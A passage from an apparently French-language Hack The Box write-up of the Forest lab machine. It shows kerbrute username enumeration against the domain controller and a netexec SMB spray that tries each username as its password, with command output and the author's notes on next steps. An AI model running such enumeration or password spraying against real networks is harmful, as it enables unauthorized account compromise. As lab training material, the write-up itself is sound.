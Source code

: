 ```terminal
lucinda
svc-alfresco
andy
mark
santi
Guest
krbtgt
Administrator
```
Wow on a des utilisateurs, ok maintenant avec ces utilisateurs quoi faire ?
- Je pourrais les mettre dans une listes et ensuite d'essayer ces utilisateurs comme username and password
- Aussi je vais voir si c'est users sont dans les kerberoas
```
# kerbrute userenum --dc 10.129.4.45 -d htb.local users.txt

    __             __               __
   / /_____  _____/ /_  _______  __/ /____
  / //_/ _ \/ ___/ __ \/ ___/ / / / __/ _ \
 / ,< /  __/ /  / /_/ / /  / /_/ / /_/  __/
/_/|_|\___/_/  /_.___/_/   \__,_/\__/\___/

Version: v1.0.3 (9dad6e1) - 02/23/24 - Ronnie Flathers @ropnop

2024/02/23 19:07:01 >  Using KDC(s):
2024/02/23 19:07:01 >  	10.129.4.45:88

2024/02/23 19:07:03 >  [+] VALID USERNAME:	 lucinda@htb.local
2024/02/23 19:07:03 >  [+] VALID USERNAME:	 Administrator@htb.local
2024/02/23 19:07:03 >  [+] VALID USERNAME:	 mark@htb.local
2024/02/23 19:07:03 >  [+] VALID USERNAME:	 santi@htb.local
2024/02/23 19:07:03 >  [+] VALID USERNAME:	 andy@htb.local
2024/02/23 19:07:03 >  [+] VALID USERNAME:	 sebastien@htb.local
2024/02/23 19:07:03 >  [+] VALID USERNAME:	 svc-alfresco@htb.local
2024/02/23 19:07:03 >  Done! Tested 9 usernames (7 valid) in 1.762 seconds
```
Avec kerbrute on me dit que seul 7 utilisateurs sont valide et on de compte kerberoas, alors j'enleve les autres.
Maintenant je vais utiliser `crackmapexec` ou `netexec` pour voir si un de ces users n'a pas son username comme etant aussi son mot de passe

```
└─# nxc smb 10.129.4.45 -u users.txt -p users.txt --no-bruteforce --continue-on-success
SMB         10.129.4.45     445    FOREST           [*] Windows Server 2016 Standard 14393 x64 (name:FOREST) (domain:htb.local) (signing:True) (SMBv1:True)
SMB         10.129.4.45     445    FOREST           [-] htb.local\sebastien:sebastien STATUS_LOGON_FAILURE
SMB         10.129.4.45     445    FOREST           [-] htb.local\lucinda:lucinda STATUS_LOGON_FAILURE
SMB         10.129.4.45     445    FOREST           [-] Connection Error: The NETBIOS connection with the remote host timed out.
SMB         10.129.4.45     445    FOREST           [-] htb.local\andy:andy STATUS_LOGON_FAILURE
SMB         10.129.4.45     445    FOREST           [-] htb.local\mark:mark STATUS_LOGON_FAILURE
SMB         10.129.4.45     445    FOREST           [-] htb.local\santi:santi STATUS_LOGON_FAILURE
SMB         10.129.4.45     445    FOREST           [-] htb.local\Administrator:Administrator STATUS_LOGON_FAILURE
```
Ok aucun des users n'a son username comme mot de passe
